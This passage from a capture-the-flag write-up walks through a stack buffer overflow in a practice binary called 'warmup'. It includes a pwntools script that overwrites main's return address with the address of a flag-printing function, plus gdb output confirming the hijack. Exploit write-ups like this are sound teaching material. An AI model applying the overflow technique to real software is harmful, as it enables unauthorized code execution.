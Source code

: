 So we can see the address that gets printed to the screen must point to the function easy. Given the fact that our input is further down in the stack frame at rbp-0x40, we probably won't be able to affect other data above us in the frame, however, because there's no stack canary, we could overwrite the return address of `main` with the address of `easy`. This should allow us to print the flag. The buffer we will write to holds 64 bytes (0x40), and that it is located at rbp-0x40. So using this knowledge, if we send 64 bytes that will take up to rbp, and if we send another 8 bytes it will overwrite rbp and put us at the return address of `main`.  To test the theory we can we send 64 A's to the program appended with 8 * B's, then append it with the address of `easy` (0x40060d). I'll script the logic in python and then debug the execution in gdb with a breakpoint on the call to easy:

```python
from pwn import *

target = process("./warmup")

gdb.attach(target, gdbscript="b *easy")

payload = b"A" * 64 + b"B"*8 + p64(0x40060d)

target.sendline(payload)

target.interactive()

```

```bash
gef➤  x/18gx $rsp
0x7ffce5ad6c40:	0x6430363030347830	0x000000000000000a
0x7ffce5ad6c50:	0x0000000000000000	0x0000000000000000
0x7ffce5ad6c60:	0x0000000000000000	0x0000000000000000
0x7ffce5ad6c70:	0x0000000000000000	0x0000000000000000
0x7ffce5ad6c80:	0x4141414141414141	0x4141414141414141
0x7ffce5ad6c90:	0x4141414141414141	0x4141414141414141
0x7ffce5ad6ca0:	0x4141414141414141	0x4141414141414141
0x7ffce5ad6cb0:	0x4141414141414141	0x4141414141414141
0x7ffce5ad6cc0:	0x4242424242424242	0x000000000040060d
gef➤  info frame
Stack level 0, frame at 0x7ffce5ad6cd0:
 rip = 0x4006a3 in main; saved rip = 0x40060d
 Arglist at 0x7ffce5ad6cc0, args: 
 Locals at 0x7ffce5ad6cc0, Previous frame's sp is 0x7ffce5ad6cd0
 Saved registers:
  rbp at 0x7ffce5ad6cc0, rip at 0x7ffce5ad6cc8

```

This is good, we can see the return address is pointing to 0x40060d which should call easy. We'll step into the next intstruction: 

```bash
─────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400699 <main+007c>      mov    eax, 0x0
     0x40069e <main+0081>      call   0x400500 <gets@plt>
     0x4006a3 <main+0086>      leave  
 →   0x4006a4 <main+0087>      ret    
   ↳    0x40060d <easy+0000>      push   rbp
        0x40060e <easy+0001>      mov    rbp, rsp
        0x400611 <easy+0004>      mov    edi, 0x400734
        0x400616 <easy+0009>      call   0x4004d0 <system@plt>
        0x40061b <easy+000e>      pop    rbp
        0x40061c <easy+000f>      ret    

```
